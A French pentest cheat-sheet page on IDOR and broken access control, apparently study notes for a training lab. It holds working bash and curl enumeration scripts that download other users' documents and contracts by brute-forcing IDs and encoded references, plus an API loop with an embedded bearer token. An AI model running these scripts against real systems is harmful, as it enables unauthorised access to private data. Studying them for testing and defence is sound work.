 
> [!TIP]
> Broken Access Control -> RBAC non implémenté
> Permet d'accéder à des ressources non autorisées en modifiant simplement un paramètre ou une url par exemple

[[#Identifier IDOR]]
[[#Enumération IDOR]]
[[#Bypass Encoded References]]
[[#Insecure APIs]]




# Identifier IDOR

## Paramètres d'URL & API

> [!TIP]
> Identifier les paramètres pointant directement sur un objet tel que `?uid=1` ou `?filename=file_1.pdf`

## AJAX Calls

> [!TIP]
> Identifier un script ajax et essayer de l'appeler

Exemple:
```javascript
function changeUserPassword() {
    $.ajax({
        url:"change_password.php",
        type: "post",
        dataType: "json",
        data: {uid: user.uid, password: user.password, is_admin: is_admin},
        success:function(result){
            //
        }
    });
}
```

# Enumération IDOR

## Paramètres non sécurisés

Boucle for pour fuzz paramètre uid et récupérer les documents pdf de la page

```bash
#!/bin/bash

url="http://SERVER_IP:PORT"

for i in {1..10}; do
        for link in $(curl -s "$url/documents.php?uid=$i" | grep -oP "/documents[^'\"<>]*?\.pdf"); do
                wget -q $url/$link
        done
done
```

# Bypass Encoded References

> [!TIP]
> Lire le code source et essayer d'identifier la fonction d'encodage.
> Faire la correspondance en générant des hash

encodage en base64 de "1" puis hachage en md5

```bash
echo -n 1 | base64 -w 0 | md5sum
```

Script pour récupérer tous les contrats

```bash
#!/bin/bash

for i in {1..10}; do
    for hash in $(echo -n $i | base64 -w 0 | md5sum | tr -d ' -'); do
        curl -sOJ -X POST -d "contract=$hash" http://SERVER_IP:PORT/download.php
    done
done
```

# Insecure APIs

> [!TIP]
> permet d'exécuter des appels API en tant qu'un autre utilisateur


```shell
for ((i=1; i<= 20; i++)); do
curl -s -w "\n" -X 'GET' \
  'http://94.237.49.212:43104/api/v1/supplier-companies/yearly-reports/'$i'' \
  -H 'accept: application/json' \
  -H 'Authorization: Bearer eyJhbGciOiJIUzUxMiIsInR5cCI6IkpXVCJ9.eyJodHRwOi8vc2NoZW1hcy54bWxzb2FwLm9yZy93cy8yMDA1LzA1L2lkZW50aXR5L2NsYWltcy9uYW1laWRlbnRpZmllciI6Imh0YnBlbnRlc3RlcjFAcGVudGVzdGVyY29tcGFueS5jb20iLCJodHRwOi8vc2NoZW1hcy5taWNyb3NvZnQuY29tL3dzLzIwMDgvMDYvaWRlbnRpdHkvY2xhaW1zL3JvbGUiOiJTdXBwbGllckNvbXBhbmllc19HZXRZZWFybHlSZXBvcnRCeUlEIiwiZXhwIjoxNzIwMTg1NzAwLCJpc3MiOiJodHRwOi8vYXBpLmlubGFuZWZyZWlnaHQuaHRiIiwiYXVkIjoiaHR0cDovL2FwaS5pbmxhbmVmcmVpZ2h0Lmh0YiJ9.D6E5gJ-HzeLZLSXeIC4v5iynZetx7f-bpWu8iE_pUODlpoWdYKniY9agU2qRYyf6tAGdTcyqLFKt1tOhpOsWlw' | jq
done
```
